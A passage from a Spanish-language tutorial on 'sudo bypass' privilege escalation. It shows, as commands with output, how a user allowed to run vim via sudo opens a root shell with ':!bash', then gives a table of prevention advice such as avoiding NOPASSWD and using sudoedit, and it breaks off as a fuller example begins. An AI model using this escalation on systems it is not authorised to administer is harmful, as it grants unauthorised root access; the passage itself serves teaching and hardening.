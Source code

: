 ### 🚨 ¡Ahora el bypass!

1. Cambia al usuario:

```bash
su - usuario1
```

2. Ejecuta `vim` como root:

```bash
sudo /usr/bin/vim
```

3. Abre una shell desde vim:

```vim
:!bash
```

4. Comprueba que eres root:

```bash
whoami
```

Resultado:

```
root
```

¡Has escalado privilegios sin saber la contraseña root!

---

### 🛡️ ¿Cómo prevenir Sudo Bypass?

| Recomendación                      | Explicación breve                                        |
| ---------------------------------- | -------------------------------------------------------- |
| No uses NOPASSWD innecesario       | Pide siempre contraseña para sudo                        |
| Evita permitir comandos peligrosos | Vim, nano, python, bash, etc. pueden romper la seguridad |
| Usa `sudoedit` en vez de dar `vim` | sudoedit no da acceso a comandos de sistema              |
| Revisa el archivo `/etc/sudoers`   | Cada cierto tiempo audita permisos                       |
| Mantén sudo actualizado            | Existen vulnerabilidades como CVE-2021-3156              |

---

### 🧱 Ejemplo completo y paso a paso

#### 🎯 Objetivo: Escalar a root usando un bypass de sudo

---

#### 🧪 PASO 1: Usuario `usuario1` con permiso NOPASSWD
